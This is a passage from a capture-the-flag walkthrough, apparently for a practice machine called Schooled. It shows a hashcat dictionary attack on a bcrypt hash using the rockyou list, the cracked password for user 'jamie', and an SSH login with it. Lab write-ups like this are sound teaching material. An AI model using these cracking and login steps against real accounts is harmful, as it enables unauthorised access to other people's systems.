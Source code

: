 Then fired up `hashcat` with the following argument.

```none
hashcat.exe -a 0 -m 3200 hashes/schooled_jamie ..\SecLists-2021.3.1\Passw
ords\Leaked-Databases\rockyou.txt
```

And the results on my wish-I-had-a-better-GPU hash cracking rig.

```none
$2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW:!QAZ2wsx

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5G...l4qTiW
Time.Started.....: Sat Sep 11 18:30:05 2021 (1 min, 7 secs)
Time.Estimated...: Sat Sep 11 18:31:12 2021 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (..\SecLists-2021.3.1\Passwords\Leaked-Databases\rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      209 H/s (9.24ms) @ Accel:16 Loops:8 Thr:16 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 14080/14344384 (0.10%)
Rejected.........: 0/14080 (0.00%)
Restore.Point....: 13824/14344384 (0.10%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1016-1024
Candidate.Engine.: Device Generator
Candidates.#1....: gerber -> dillion
Hardware.Mon.#1..: Temp: 38c Fan: 27% Util: 96% Core:1934MHz Mem:3992MHz Bus:16

Started: Sat Sep 11 18:29:55 2021
Stopped: Sat Sep 11 18:31:13 2021
```

Success! The password `!QAZ2wsx` was discovered for the user `jamie`. Now we should be able to SSH in and get the user flag!

```none
└─$ ssh jamie@10.10.10.234        
The authenticity of host '10.10.10.234 (10.10.10.234)' can't be established.
ECDSA key fingerprint is SHA256:BiWc+ARPWyYTueBR7SHXcDYRuGsJ60y1fPuKakCZYDc.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.234' (ECDSA) to the list of known hosts.
Password for jamie@Schooled:
Last login: Tue Mar 16 14:44:53 2021 from 10.10.14.5
FreeBSD 13.0-BETA3 (GENERIC) #0 releng/13.0-n244525-150b4388d3b: Fri Feb 19 04:04:34 UTC 2021

Welcome to FreeBSD!

Release Notes, Errata: https://www.FreeBSD.org/releases/
Security Advisories:   https://www.FreeBSD.org/security/
FreeBSD Handbook:      https://www.FreeBSD.org/handbook/
FreeBSD FAQ:           https://www.FreeBSD.org/faq/
Questions List: https://lists.FreeBSD.org/mailman/listinfo/freebsd-questions/
FreeBSD Forums:        https://forums.FreeBSD.org/

Documents installed with the system are in the /usr/local/share/doc/freebsd/
directory, or can be installed later with:  pkg install en-freebsd-doc
For other languages, replace "en" with a language code like de or fr.

Show the version of FreeBSD installed:  freebsd-version ; uname -a
Please include that output and any error messages when posting questions.
Introduction to manual pages:  man man
FreeBSD directory layout:      man hier

To change this login announcement, see motd(5).
```